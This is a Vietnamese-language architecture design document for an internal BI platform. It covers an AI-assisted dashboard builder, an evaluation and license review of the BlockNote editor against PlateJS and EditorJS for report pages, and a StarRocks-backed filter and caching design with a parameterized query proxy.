| Component | Tool | Lý do |
|:----------|:-----|:------|
| **Grid Layout** | **react-grid-layout** | Industry standard (Grafana, Metabase cùng dùng). Drag-drop, resize, responsive breakpoints, serializable JSON |
| **Chart Library** | **ECharts** via `echarts-for-react` | 50+ chart types, JSON-based config (AI-friendly), theme system |
| **AI Builder** | LangGraph Agent + Wren AI | NL → widget config. Agent hiểu metrics từ semantic layer → generate ECharts config |
| **Traditional Builder** | Custom React components + shadcn/ui | Dropdown chọn metric/dimension, chart type picker, style/color config panel |
| **Mode Switcher** | React state + shared `DashboardWidget` model | Cả 2 modes output cùng 1 format → switch bất kỳ lúc nào |
| **Collaboration** | WebSocket (Yjs hoặc Liveblocks) | Real-time collaborative editing cho personal dashboards được share |
| **Data Source** | Query Proxy → StarRocks | Mỗi widget = 1 query template, filter values injected server-side |
| **Storage** | PostgreSQL (JSONB) | Dashboard = JSON document (layout + widgets + filters + collaborators) |
| **Cache** | Redis Cluster | Published/shared dashboard queries pre-warmed. 300-500 concurrent users |

##### Dashboard Access Model — Personal vs Global

```mermaid
graph TD
    subgraph "Personal Dashboard"
        P_CREATE["👤 Bất kỳ user tạo<br/>(AI mode hoặc Traditional)"]
        P_SHARE["📤 Share options:<br/>• Invite view (read-only)<br/>• Invite edit (collaborative)<br/>• Generate share link"]
        P_COLLAB["👥 Collaborators:<br/>Cùng chỉnh sửa real-time<br/>(nếu được invite edit)"]
    end

    subgraph "Global Dashboard"
        G_CREATE["🔑 Chỉ Power User<br/>(role: dashboard_admin)<br/>mới tạo/chỉnh sửa được"]
        G_VIEW["👥 Tất cả users xem<br/>(read-only)"]
        G_NOTE["⚠️ User thường:<br/>KHÔNG được edit<br/>KHÔNG được add chart<br/>Chỉ xem + filter"]
    end

    subgraph "Add to Dashboard (từ Chat UC2)"
        CHAT_ADD["💬 User tạo chart từ Chat<br/>→ 'Add to Dashboard'"]
        CHECK["🔐 Permission check:<br/>canEdit(user, dashboard)?"]
        CHECK --> |"YES: own/edit-collaborator/admin"| ADD_OK["✅ Chart added"]
        CHECK --> |"NO: view-only"| ADD_DENY["❌ 'Bạn không có quyền edit<br/>dashboard này. Tạo personal<br/>dashboard mới?'"]
    end

    P_CREATE --> P_SHARE
    P_SHARE --> P_COLLAB
    G_CREATE --> G_VIEW
    CHAT_ADD --> CHECK

    style P_CREATE fill:#6366F1,stroke:#333,color:#fff
    style G_CREATE fill:#D97706,stroke:#333,color:#fff
    style ADD_DENY fill:#ff6b6b,stroke:#333,color:#fff
```

##### UC3 → UC1 Flow: Build → Share/Publish → View

```mermaid
graph TD
    USER["👤 User (UC3)"] --> MODE{"Chọn mode?"}
    
    MODE --> |"🤖 AI Mode"| AI["Mô tả bằng NL<br/>'Tạo dashboard sales overview'<br/>→ AI generate toàn bộ widgets"]
    MODE --> |"⚙️ Traditional"| TRAD["Drag widgets từ toolbox<br/>→ Configure metric/dimension"]
    MODE --> |"🔀 Hybrid"| HYBRID["AI tạo → Traditional fine-tune"]
    
    AI --> CANVAS["📐 Grid Canvas<br/>Arrange, resize"]
    TRAD --> CANVAS
    HYBRID --> CANVAS
    
    CANVAS --> PREVIEW["👁️ Preview với live data"]
    PREVIEW --> ACTION{"Dashboard type?"}
    
    ACTION --> |"Personal"| SHARE["📤 Share:<br/>• Link (view-only)<br/>• Invite collaborators<br/>• Keep private"]
    ACTION --> |"Global (power user)"| PUBLISH["📢 Publish:<br/>Visible cho toàn bộ org<br/>Redis cache warming"]
    
    SHARE --> UC1_V["👥 Shared users xem/edit<br/>theo permission"]
    PUBLISH --> UC1_ALL["👥 Tất cả users xem<br/>< 50ms load time"]

    style AI fill:#6366F1,stroke:#333,color:#fff
    style TRAD fill:#D97706,stroke:#333,color:#fff
    style UC1_ALL fill:#059669,stroke:#333,color:#fff
```

#### 6.0.5. Layer 4: Report Builder — BlockNote Source Code Verification (UC4)

> [!IMPORTANT]
> **BlockNote source code đã được clone và verify** tại `/Users/vanductai/Repo/oss/blocknote` — xác minh tính khả thi cho UC4 (Report Pages). Charts tạo từ UC2 (Chat) có thể “Add to Report Page” vào đây.

##### Source Code Verification Results

| # | Claim | Status | Source Code Evidence | Ghi chú |
|:--|:------|:-------|:--------------------|:--------|
| 1 | Custom blocks (chart/table/KPI) | ✅ **Verified** | `packages/react/src/schema/ReactBlockSpec.tsx` — `createReactBlockSpec()` API. Existing examples: Alert, Image, Video, Audio, File blocks | 3 overloads, flexible type system, supports `content: 'none'` (perfect cho chart blocks) |
| 2 | AI integration | ✅ **Verified** | `packages/xl-ai/src/AIExtension.ts` — 524 lines. Dùng **Vercel AI SDK** (`ai@6.0+`), supports Anthropic/OpenAI/Google/Groq/Mistral | AI → edit/generate blocks, suggest changes with accept/reject UX |
| 3 | PDF export | ✅ **Verified** | `packages/xl-pdf-exporter/src/pdf/pdfExporter.tsx` — Dùng `@react-pdf/renderer`, **KHÔNG cần Puppeteer**. Built-in font registration (Inter, GeistMono) | Pure React → PDF pipeline, supports headers/footers |
| 4 | Multi-column layout | ✅ **Verified** | `packages/xl-multi-column` — Dedicated package cho column layout | Supports 2+ columns, useful cho report layout |
| 5 | DOCX export | ✅ **Verified** | `packages/xl-docx-exporter` — Export sang Word format | Bonus: share reports as .docx |
| 6 | Collaboration | ✅ **Verified** | `examples/07-collaboration` — Yjs-based real-time sync. Comments with sidebar example | Built on y-prosemirror |
| 7 | React 18/19 support | ✅ **Verified** | `peerDependencies: "react": "^18.0 \|\| ^19.0"` | Compatible với Next.js 15+ |
| 8 | Custom block example | ✅ **Verified** | `examples/06-custom-schema/01-alert-block/src/Alert.tsx` — Clear pattern: config + render + interactive menu | 121 lines, straightforward pattern cho Chart Block |

##### License Analysis

| Package | License | Impact |
|:--------|:--------|:-------|
| `@blocknote/core` | **MPL-2.0** ✅ | Permissive, file-level copyleft — hoàn toàn OK cho commercial |
| `@blocknote/react` | **MPL-2.0** ✅ | Same — thoải mái sử dụng |
| `@blocknote/xl-ai` | **GPL-3.0 OR PROPRIETARY** ⚠️ | GPL-3.0 = phải open-source nếu distribute. Hoặc mua license thương mại |
| `@blocknote/xl-pdf-exporter` | **GPL-3.0 OR PROPRIETARY** ⚠️ | Same issue — nhưng có thể tự build PDF export (Puppeteer alternative) |
| `@blocknote/xl-multi-column` | **GPL-3.0 OR PROPRIETARY** ⚠️ | Same — nhưng multi-column không critical |

> [!WARNING]
> **License concern cho `xl-*` packages**: Nếu hệ thống là **internal-only** (self-hosted, không distribute binary), GPL-3.0 **không phải vấn đề** — chỉ restrict khi bạn phân phối software cho bên ngoài. Với internal BI tool, GPLv3 hoàn toàn OK.
>
> **Nếu muốn thận trọng**: 
> - `xl-ai` → tự build AI integration dùng Vercel AI SDK trực tiếp (simple wrapper)
> - `xl-pdf-exporter` → thay bằng Puppeteer/ECharts SVG SSR approach
> - Core (`@blocknote/core` + `@blocknote/react`) = MPL-2.0, thoải mái dùng

##### Verdict: So Sánh Chi Tiết BlockNote vs PlateJS vs EditorJS (v6.1 — Updated)

> [!IMPORTANT]
> **Bảng so sánh dưới đây bao gồm 3 editor chính** được đánh giá cho UC4 (Report Builder) + TipTap làm reference. Mỗi tiêu chí được đánh giá theo mức độ phù hợp cho use case: Notion-like report builder với AI integration, ECharts custom blocks, PDF export, collaboration, trong hệ thống Next.js 15 + React 19.

| Tiêu chí | **BlockNote** | **PlateJS** (@udecode/plate) | **EditorJS** (codex-team) | TipTap (reference) |
|:---------|:-------------|:---------------------------|:------------------------|:-------------------|
| **GitHub Stars** | ~8K+ | ~14K+ | ~29K+ | ~30K+ |
| **License (core)** | ✅ MPL-2.0 | ✅ MIT | ✅ Apache 2.0 | ⚠️ Source-available (v3) |
| **License (premium)** | `xl-*` = GPL-3.0 OR commercial | Plate Plus = commercial (templates, Potion) | N/A | Commercial extensions |
| **Framework** | ✅ React-native | ✅ React-native | ❌ **Vanilla JS** (cần wrapper, class-based blocks only) | ✅ Framework-agnostic |
| **Foundation** | ProseMirror + TipTap | **Slate.js** | Custom (vanilla DOM) | ProseMirror |
| **Next.js SSR** | ✅ Compatible | ✅ Compatible | ❌ **Client-only** (SSR incompatible — EditorJS dùng DOM API trực tiếp) | ✅ Compatible |
| **Notion-like UX** | ✅ **Out-of-box** (slash commands, drag-drop, block handles, formatting toolbar) | ✅ Full (slash commands, drag-drop, block handles — cần config nhiều hơn) | ⚠️ **Hạn chế** (block-based nhưng thiếu slash commands native, drag-drop cần plugin ngoài) | ❌ Build from scratch |
| **Custom Blocks** | ✅ `createReactBlockSpec()` — simple, 3 overloads | ✅ Plugin system (50+ plugins có sẵn) — powerful nhưng learning curve cao hơn | ✅ Class-based Tool API — simple nhưng **KHÔNG hỗ trợ functional React components** | ✅ Custom nodes (ProseMirror) |
| **AI Integration** | ✅ **Built-in `xl-ai`** (Vercel AI SDK, accept/reject UX, multi-provider) | ✅ **Built-in `@udecode/plate-ai`** (Copilot ghost text, AI commands, MCP support) | ❌ **Không có** — phải build từ đầu | ❌ Build yourself |
| **PDF Export** | ✅ **Built-in `xl-pdf-exporter`** (@react-pdf/renderer, pure React → PDF, không cần Puppeteer) | ❌ **Không có native** — pageless by design, community đang discuss nhưng chưa release. Cần Puppeteer/headless Chrome | ❌ **Không có** — cần build renderer riêng (JSON → HTML → PDF) | ❌ Build yourself |
| **DOCX Export** | ✅ Built-in `xl-docx-exporter` | ⚠️ Community packages | ❌ Không có | ❌ Build yourself |
| **Collaboration (Yjs)** | ✅ **Built-in** (y-prosemirror, examples sẵn) | ✅ Available (Yjs plugin) | ❌ **Không có native** — cần Liveblocks hoặc custom solution | ✅ Yjs available |
| **Multi-column Layout** | ✅ `xl-multi-column` package | ✅ Column plugin available | ❌ Không có native | ❌ Build yourself |
| **shadcn/ui Integration** | ⚠️ Partial (có UI components riêng) | ✅ **Native** — thiết kế để dùng với shadcn/ui (Plate UI) | ❌ Không liên quan | ❌ |
| **Maturity** | ⚠️ **v0.47 (pre-1.0)** — API có thể breaking changes | 🟡 **Actively maintained** — stable nhưng evolving nhanh (major version changes thường xuyên) | ✅ **v2.x (stable)** — API ổn định, ít breaking changes | ✅ v3.x (stable) |
| **Bundle Size** | ~Medium (ProseMirror core) | ~Medium (Slate core, tree-shakeable với 50+ plugins) | 🟢 **Small (~300KB)** — lightweight nhất | ~Medium |
| **Output Format** | Block-based JSON | Slate JSON (custom format) | ✅ **Clean JSON** (mỗi block = JSON object, dễ render server-side) | ProseMirror JSON/HTML |
| **TypeScript** | ✅ Full | ✅ Full | ⚠️ Types available nhưng không phải primary | ✅ Full |
| **Learning Curve** | 🟢 **Low** | 🟡 **Medium-High** (Slate concepts, plugin architecture) | 🟢 **Low-Medium** (simple API nhưng class-based) | 🔴 High (ProseMirror) |
| **Development Speed (UC4)** | 🟢 **1-2 tuần** (custom blocks + AI + PDF gần như out-of-box) | 🟡 **2-3 tuần** (AI có sẵn, nhưng PDF phải tự build + config phức tạp hơn) | 🔴 **4-6 tuần** (thiếu AI, PDF, collaboration, SSR — phải build tất cả) | 🔴 3-4 tuần |
| **ECharts Block (UC4)** | ✅ `createReactBlockSpec({content: 'none'})` — render React component trực tiếp | ✅ Custom element plugin — render React component nhưng cần config nhiều hơn | ⚠️ Class-based Tool — phải wrap React component trong vanilla JS class, phức tạp | ✅ Custom node |

##### Đánh Giá Tổng Hợp Cho UC4 (Report Builder)

| Tiêu chí (trọng số) | BlockNote | PlateJS | EditorJS |
|:---------------------|:---------|:--------|:---------|
| **Custom ECharts blocks** (30%) | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐ | ⭐⭐ |
| **AI integration** (25%) | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ | ⭐ |
| **PDF/DOCX export** (20%) | ⭐⭐⭐⭐⭐ | ⭐⭐ | ⭐ |
| **Collaboration** (10%) | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐ | ⭐ |
| **Next.js SSR** (10%) | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ | ⭐ |
| **Maturity/Stability** (5%) | ⭐⭐⭐ | ⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ |
| **Weighted Total** | **4.65/5** | **3.95/5** | **1.55/5** |

> [!IMPORTANT]
> **Final Verdict (v6.1)**: **BlockNote vẫn là option tốt nhất cho UC4**, xác nhận qua so sánh đầy đủ 3 editor:
>
> 1. **BlockNote (Winner)**: Fastest development (1-2 tuần). AI + PDF + collaboration + custom blocks gần như out-of-box. Risk duy nhất: pre-1.0 → mitigated bằng abstraction layer (IReportEditor)
> 2. **PlateJS (Runner-up)**: AI integration tốt (Copilot + AI commands), shadcn/ui native, 50+ plugins. **Nhưng thiếu PDF export native** — đây là blocker cho UC4 (cần export báo cáo). Learning curve cao hơn. Nếu BlockNote bị abandoned → PlateJS là fallback tốt nhất
> 3. **EditorJS (Loại)**: Dù phổ biến nhất (29K+ stars), **không phù hợp cho UC4** vì: (a) Vanilla JS — không React-native, SSR incompatible; (b) Không có AI, PDF, collaboration; (c) Class-based blocks không tương thích với React components (ECharts). Phù hợp hơn cho CMS đơn giản
>
> **Khi nào chọn PlateJS thay BlockNote?**
> - Cần shadcn/ui native integration (cùng design system)
> - Cần 50+ plugins sẵn có (mention, comment, equation, ...)
> - Không cần PDF export (hoặc chấp nhận Puppeteer approach)
> - Team quen Slate.js ecosystem
>
> **Khi nào chọn EditorJS?**
> - CMS đơn giản (blog, content management) — không phải BI report builder
> - Cần output JSON clean nhất cho server-side rendering
> - Không cần collaboration, AI, PDF
> - Bundle size là priority #1

##### BlockNote Risk Mitigation — Abstraction Layer + React 19 Monitoring

> [!WARNING]
> **2 rủi ro chính của BlockNote cần mitigation:**
> 1. **Pre-1.0 (v0.47)** — API có thể breaking changes giữa minor versions
> 2. **React 19 Compatibility** — GitHub Issue #1021 ghi nhận một số vấn đề với React 19 RC (slash menu + multi-column). BlockNote `peerDependencies` đã khai báo `"react": "^18.0 || ^19.0"` và team đang fix. v0.47.3 (mới nhất) có thể đã resolve. **Cần test kỹ trước khi adopt.**
>
> Vì BlockNote đóng vai trò **core** cho UC4 (Report Builder), cần abstraction layer để giảm migration cost nếu API thay đổi hoặc cần switch sang **PlateJS** (runner-up, full React 19 + SSR support, MIT license, nhưng thiếu PDF export native).

**`IReportEditor` Interface** (abstraction layer — cần implement):
- **Core**: `initialize()`, `getContent()`, `setContent()`, `destroy()`
- **Block ops**: `insertBlock()`, `updateBlock()`, `removeBlock()`
- **Chart specific**: `insertChartBlock(chartConfig, title)`, `updateChartData(blockId, newData)`
- **Export**: `exportToPDF()` → Blob, `exportToHTML()` → string
- **AI**: `applyAISuggestion()`. **Collaboration**: `enableCollaboration?(roomId)`

**`BlockNoteReportEditor implements IReportEditor`**: Delegate tới BlockNote API. Pin version `@blocknote/react@0.47.x`. Chart blocks via `createReactBlockSpec`. PDF via `@blocknote/xl-pdf-exporter`

**`PlateReportEditor`** (future fallback): Same interface, PlateJS implementation. Advantages: MIT, React 19, shadcn/ui. Caveat: cần Puppeteer cho PDF. Migration: 2-3 tuần

**App code**: `useReportEditor()` returns `IReportEditor` — NEVER import từ `@blocknote/*` trực tiếp

**Version Pinning & Monitoring Strategy:**

| Aspect | Strategy |
|:-------|:---------|
| **Version lock** | Pin chính xác: `"@blocknote/react": "0.47.x"` (patch-level updates OK, minor = review first) |
| **Renovate Bot** | Auto-update patch only. Minor/major cần manual approval |
| **Contract tests** | 5 integration tests cho `IReportEditor` methods — chạy trong CI sau mỗi dep update |
| **Changelog monitoring** | Renovate Bot + GitHub Release Watch cho `TypeCellOS/BlockNote` repo |

**Fallback Plan:**
| Trigger | Action | Timeline |
|:--------|:-------|:---------|
| BlockNote breaking change (minor version) | Update `BlockNoteReportEditor` implementation only | 1-3 ngày |
| BlockNote React 19 incompatibility (Issue #1021) | Test workaround (disable StrictMode) hoặc switch sang PlateJS | 3-5 ngày (workaround) / 2-3 tuần (PlateJS migration) |
| BlockNote abandoned / major incompatibility | Implement `PlateReportEditor` (PlateJS = runner-up, MIT, React 19 native, AI built-in) | 2-3 tuần (vs 4-6 tuần without abstraction) |
| Performance issues | Swap implementation, A/B test | 1 tuần |

#### 6.0.6. Evidence.dev — Loại Bỏ Hoàn Toàn (Final)

> [!WARNING]
> **Sau khi có Dashboard Builder (Layer 2) + Report Builder (Layer 4)**, Evidence không còn vai trò nào.

| Evidence's Remaining Value | Thay thế bởi | Winner |
|:--------------------------|:-------------|:-------|
| SQL+Markdown → chart pages | **BlockNote** custom blocks (chart + text + KPI) + AI generate | ✅ Report Builder |
| PDF export | **BlockNote `xl-pdf-exporter`** hoặc Puppeteer | ✅ Report Builder |
| Dashboard viewer | **Dashboard Builder** (react-grid-layout + ECharts) → UC1 viewer | ✅ Dashboard Builder |
| Data team prototyping | **Graphic Walker** drag-drop hoặc **Chat ad-hoc** (UC2) | ✅ New stack |
| BI-as-Code (.md files) | **AI → BlockNote blocks** (structured JSON, versionable) | ✅ Report Builder |

> [!IMPORTANT]
> **Final Verdict (v3.4)**: Evidence.dev **loại bỏ hoàn toàn** khỏi production architecture. Lý do:
> - Dashboard Builder (UC3) thay thế dashboard viewing → publish to UC1
> - Report Builder (UC4) thay thế BI-as-Code reports
> - Chat (UC2) thay thế ad-hoc prototyping
> - Zero security risk (no Parquet/DuckDB)
> - Single tech stack (React/Next.js)
>
> §6.9 (Evidence.dev research) giữ lại như **reference** cho decision-making history.

#### 6.0.7. Architecture Summary — Final Visualization Stack

```mermaid
graph TD
    subgraph "Frontend (Next.js App)"
        UC1_UI["👁️ UC1: Viewer<br/>Dashboard/Report (read-only)<br/>Layer 1"]
        UC2_UI["💬 UC2: AI Chat<br/>ECharts AI-generated<br/>Layer 2"]
        UC3_UI["📐 UC3: Dashboard Builder<br/>react-grid-layout + ECharts<br/>Layer 3"]
        UC4_UI["📄 UC4: Report Builder<br/>BlockNote + ECharts<br/>Layer 4"]
        UC5_UI["🔍 Data Explorer<br/>Graphic Walker (optional)<br/>Layer 5"]
    end

    subgraph "Server Layer"
        PROXY["🔒 Query Proxy API<br/>(Next.js API Routes)"]
        AUTH["🔐 Auth + RBAC<br/>(Better Auth)"]
        CACHE["⚡ Redis Cache"]
        PDF["📑 PDF Service"]
    end

    subgraph "Data Layer"
        SR["🗄️ StarRocks"]
        PG["🐘 PostgreSQL<br/>(Dashboards, Reports)"]
    end

    UC1_UI --> PROXY
    UC2_UI --> PROXY
    UC3_UI --> |"save layout"| PG
    UC3_UI --> |"preview data"| PROXY
    UC4_UI --> |"chart data"| PROXY
    UC4_UI --> |"save report"| PG
    UC4_UI --> |"export"| PDF
    UC5_UI --> PROXY
    
    PROXY --> AUTH
    AUTH --> CACHE
    CACHE --> |"miss"| SR
    
    UC2_UI --> |"Add to Dashboard"| UC3_UI
    UC2_UI --> |"Add to Report"| UC4_UI
    UC3_UI --> |"publish"| UC1_UI
    UC4_UI --> |"share/publish"| UC1_UI

    style UC1_UI fill:#059669,stroke:#333,color:#fff
    style UC3_UI fill:#D97706,stroke:#333,color:#fff
    style UC4_UI fill:#4F46E5,stroke:#333,color:#fff
    style PROXY fill:#6bcb77,stroke:#333,color:#333
```

#### 6.0.8. KPIs — Visualization Quality (Updated)

| Metric | Target | Use Case | Đo bằng |
|:-------|:-------|:---------|:--------|
| **UC1 Dashboard/Report load** | < 50ms (cache), < 300ms (miss) | UC1 | Server timing headers |
| **UC2 Chat → Chart** | < 5s end-to-end | UC2 | Request → render timestamp |
| **UC2 Add to Dashboard/Report** | < 1s | UC2 → UC3/UC4 | Click → chart added confirmation |
| **UC3 Build → Preview** | < 1s drag → chart render | UC3 | UI interaction timing |
| **UC3 Publish → Live** | < 30s | UC3 → UC1 | Save → cache warm → accessible |
| **UC4 Report generation** | < 10s (full page) | UC4 | AI generate → all blocks rendered |
| **UC4 PDF export** | < 15s | UC4 | Click export → file ready |
| **UC4 Share link load** | < 2s | UC4 | First meaningful paint |
| **Zero raw data exposure** | 100% | All | Security audit — all 5 layers |

---


### 6.1. Multi-Dimensional Filter Architecture — Chiến Lược Phục Vụ Dữ Liệu Đa Chiều

> [!CAUTION]
> **Vấn đề cốt lõi**: User cần filter dashboard theo **nhiều chiều đồng thời**: thời gian (ngày/tuần/tháng/quý/năm) × địa lý (cửa hàng/nhóm/khu vực/tỉnh) × danh mục hàng × thương hiệu × ... Nếu pre-compute **tất cả** tổ hợp: 5 time levels × 4 geo levels × 3 category levels × 50 brands = **3.000 tổ hợp**, mỗi tổ hợp một bảng aggregate → không khả thi. Nhưng nếu **không pre-compute** gì cả → mỗi lần user thay filter phải query hàng triệu rows → chậm, tốn tài nguyên.

#### 6.1.1. Phân Tích Vấn Đề: Combinatorial Filter Explosion

##### Các chiều filter thực tế trong BI nội bộ

| Dimension | Levels | Ví dụ giá trị | Số lượng giá trị ước tính |
|:----------|:-------|:-------------|:--------------------------|
| **Thời gian** | Ngày, Tuần, Tháng, Quý, Năm | `2026-04-07`, `W14/2026`, `04/2026`, `Q2/2026`, `2026` | 365 ngày × 5 levels |
| **Địa lý** | Cửa hàng, Nhóm CH, Khu vực, Tỉnh/TP, Toàn quốc | `CH001`, `Nhóm Trung Tâm`, `Miền Nam`, `HCM` | ~100 stores × 4 levels |
| **Danh mục** | SKU, Sub-category, Category, Division | `SKU-001`, `Áo thun`, `Thời trang nam`, `Clothing` | ~5000 SKUs × 4 levels |
| **Thương hiệu** | Brand | `Nike`, `Adidas`, `Local Brand` | ~50 brands |
| **Kênh bán** | Online, Offline, Marketplace | `Website`, `Shopee`, `CH vật lý` | ~10 channels |
| **Phân khúc KH** | Segment | `VIP`, `Regular`, `New` | ~5 segments |

**Tổng số tổ hợp lý thuyết**: 5 × 4 × 4 × 50 × 10 × 5 = **200.000 tổ hợp** — pre-compute tất cả = **không khả thi**.

##### Ba chiến lược tiếp cận

```mermaid
graph TD
    PROBLEM["🎯 Vấn đề: User cần filter<br/>nhiều chiều đồng thời"] --> A["❌ Strategy A:<br/>Pre-compute ALL combinations"]
    PROBLEM --> B["⚠️ Strategy B:<br/>Real-time query mỗi lần"]
    PROBLEM --> C["✅ Strategy C:<br/>Grain-Based Tiered Computation"]
    
    A --> A1["• 200K+ aggregate tables<br/>• Storage bùng nổ<br/>• Maintenance nightmare"]
    B --> B1["• Mỗi filter change = full scan<br/>• Latency 2-10s<br/>• DB resource spike"]
    C --> C1["• store data granular ở mức thấp nhất cần thiết<br/>• Aggregate on-the-fly bằng<br/>  columnar engine mạnh<br/>• Cache intelligent"]
    
    style A fill:#ff6b6b,stroke:#333,color:#fff
    style B fill:#ffd93d,stroke:#333,color:#333
    style C fill:#6bcb77,stroke:#333,color:#333
```

#### 6.1.2. Giải Pháp: Grain-Based Tiered Computation

> [!IMPORTANT]
> **Nguyên tắc cốt lõi**: **Lưu data ở grain thấp nhất hợp lý, để columnar engine tự aggregate khi cần.** StarRocks (columnar + vectorized + CBO) rất mạnh trong việc aggregate nhanh từ granular data. Thay vì pre-compute 200.000 tổ hợp, ta lưu **1 bảng fact duy nhất** ở daily × store × SKU grain → bất kỳ tổ hợp filter nào cũng query được. **Data không bao giờ rời server** — browser chỉ nhận chart data points đã aggregate.

##### Kiến trúc tổng thể

```mermaid
graph TD
    subgraph "Layer 1: StarRocks — Fact Table (Core)"
        FACT["📊 fct_sales_daily<br/>(grain: day × store × sku)<br/>~5-20M rows/năm"]
    end
    
    subgraph "Layer 2: StarRocks — Dimension Tables"
        DIM_TIME["📅 dim_date<br/>day → week → month<br/>→ quarter → year"]
        DIM_GEO["🗺️ dim_store<br/>store → group → region<br/>→ province → national"]
        DIM_PROD["📦 dim_product<br/>sku → sub_cat → category<br/>→ division → brand"]
        DIM_CHAN["📡 dim_channel"]
        DIM_CUST["👤 dim_customer_segment"]
    end
    
    subgraph "Layer 3: StarRocks — Materialized Views (Hot Paths)"
        MV1["⚡ mv_monthly_by_region<br/>(top 20% queries)"]
        MV2["⚡ mv_daily_by_category<br/>(top 20% queries)"]
        MV3["⚡ mv_brand_performance<br/>(executive dashboard)"]
    end
    
    subgraph "Layer 4: Server-Side Query Proxy + Cache"
        API["🔒 Query Proxy API<br/>(Next.js API Routes)"]
        REDIS["⚡ Redis Cache<br/>(TTL: 5min, pre-warmed)"]
        API --> REDIS
    end
    
    subgraph "Layer 5: Chat Interface — Real-time"
        CHAT["💬 Ad-hoc queries<br/>AI Agent → StarRocks"]
    end
    
    FACT --> DIM_TIME
    FACT --> DIM_GEO
    FACT --> DIM_PROD
    FACT --> DIM_CHAN
    FACT --> DIM_CUST
    
    FACT --> MV1
    FACT --> MV2
    FACT --> MV3
    
    MV1 --> API
    MV2 --> API
    MV3 --> API
    FACT --> API
    
    FACT --> CHAT
    
    API --> |"Chart data ONLY<br/>{labels, values}"| BROWSER["🌐 Browser<br/>(Next.js Dashboard)"]
```


### 6.2. Server-Side Query Proxy + Redis Cache

> [!IMPORTANT]
> **Nguyên tắc bảo mật**: **Data KHÔNG BAO GIỜ rời server dưới dạng raw/structured.** Browser chỉ nhận **chart data points** (đã aggregate, chỉ đủ để render chart). Mỗi lần user thay đổi filter → request gửi tới Server-Side Query Proxy → query StarRocks (hoặc trả từ Redis cache) → trả về JSON chỉ chứa {labels, values}.
>
> _Xem Section 7 (Data Security Architecture) để hiểu rõ lý do bảo mật dẫn đến quyết định này._

##### Luồng xử lý filter

```mermaid
graph TD
    USER["👤 User thay đổi filter"] --> |"HTTP POST + JWT"| API["🔒 Query Proxy API"]
    API --> AUTH["🔐 Auth + RBAC check"]
    AUTH --> CACHE{"⚡ Redis cache?"}
    
    CACHE --> |"HIT"| RETURN["📊 Return cached result<br/>< 50ms"]
    CACHE --> |"MISS"| BUILD["🔧 Build SQL from<br/>dashboard config + filters"]
    BUILD --> SR["🗄️ StarRocks query<br/>(auto MV rewrite)"]
    SR --> TRANSFORM["🔄 Transform result<br/>→ chart data points ONLY"]
    TRANSFORM --> STORE["💾 Cache in Redis<br/>(TTL: 5 min)"]
    STORE --> RETURN
    
    RETURN --> |"JSON: {labels, datasets}<br/>10-50 data points"| RENDER["📊 Next.js renders chart<br/>NO raw data in browser"]
```

##### Dashboard Query Templates (Server-Side)

> [!CAUTION]
> **SECURITY: Parameterized Queries Only**
> 
> Mọi SQL query trong Query Proxy **BẮT BUỘC** phải dùng parameterized queries. **TUYỆT ĐỐI KHÔNG** dùng string interpolation/template literals để inject filter values vào SQL — đây là lỗ hổng SQL injection cổ điển.

**Query Proxy — Parameterized Query Builder** (Next.js API Routes — cần implement):

**Step 1 — Input Validation**: Zod schema validate `FilterSchema`: `time_grain` (enum whitelist: day/week/month/quarter/year), `start`/`end` (ISO date), `regions[]` (max 50), `categories[]` (max 200), `brands[]` (max 100)

**Step 2 — Parameterized Query**: Dùng `?` placeholders (MySQL protocol — StarRocks compatible). `time_grain` mapped to column via whitelist (safe). Dynamic `IN` clauses: `regions.map(() => '?').join(',')`. **TUYỆT ĐỐI KHÔNG** string interpolation

**Step 3 — Secure Execution**: `FilterSchema.parse()` → `validateFilterValuesAgainstWhitelist()` (Redis cached whitelist) → `buildQuery()` → `starrocksPool.query(sql, params)` → transform to `{labels, datasets}` chart data

**Step 4 — Whitelist Validation**: Redis `smembers('whitelist:regions/categories/brands')` populated từ dimension tables. Reject nếu filter value không trong whitelist → `SecurityError`

##### Available Filters (lấy từ dimension tables)

**Filter Options Queries** (server-side, Redis TTL: 1h): `regions` / `provinces` từ `dim_store` (Active only), `categories` / `brands` từ `dim_product` (active only), `channels` từ `dim_channel`

##### Cache Warming — Đảm bảo performance

**`warm_dashboard_cache`** (Dagster asset — cần implement):
- **SWR pattern**: `DATA_TTL=300s` (5 min, data stale), `GRACE_TTL=600s` (10 min, data expired). Requests 5-10 min: serve stale + 1 background revalidation
- **Distributed lock**: `redis.lock("cache_warm:lock")` — chỉ 1 cache warm chạy tại 1 thời điểm
- **Top combos**: Executive (current month, all regions), Per-region (current month × mỗi region), Weekly, Quarterly
- **Dashboards**: `executive_overview`, `store_performance`, `product_analysis` — mỗi × top combos

> **Tại sao approach này hiệu quả VÀ an toàn?**
> - **Zero raw data exposure**: Browser chỉ nhận 10-50 chart data points, không phải 500K rows
> - **Redis cache hit**: Top 20% filter combos pre-warmed → response **< 50ms** (ngang DuckDB in-browser)
> - **Cache miss**: StarRocks MV auto-rewrite → response **100-300ms** (chấp nhận được)
> - **RBAC enforced**: Mỗi query qua auth + permission check trước khi execute
> - **Audit trail**: Mọi dashboard query được logged


### 6.3. AI-Assisted Dashboard Builder — UX & Interaction Modes

> [!NOTE]
> Section này mô tả chi tiết **UX flows** cho Dashboard Builder (§6.0.4). Kiến trúc kỹ thuật (react-grid-layout, data model) xem §6.0.4. Mapping: **Mode 1** = UC2 (Chat), **Mode 2** = UC3 (Dashboard Builder), **Mode 3** = UC2→UC3 bridge.

#### 6.3.1. Ba Mode Tương Tác Với Hệ Thống

```mermaid
graph TD
    subgraph "Mode 1: Chat Q&A — UC2 (Reactive)"
        M1["👤 User hỏi câu hỏi"] --> M1A["🤖 AI trả lời<br/>+ chart + insight"]
        M1A --> M1B["💬 Kết quả trong<br/>chat thread"]
    end
    
    subgraph "Mode 2: Dashboard Builder — UC3 (Proactive)"
        M2["👤 User tạo Dashboard"] --> M2A["📊 Chọn/tạo widget<br/>(AI hỗ trợ)"]
        M2A --> M2B["🏗️ Sắp xếp layout<br/>drag-and-drop"]
        M2B --> M2C["📌 Dashboard persisted<br/>auto-refresh"]
    end
    
    subgraph "Mode 3: Hybrid — UC2→UC3/UC4 Bridge"
        M3["👤 Hỏi trong chat"] --> M3A["📊 Nhận chart"]
        M3A --> M3B["📌 Add to Dashboard<br/>hoặc Add to Report"]
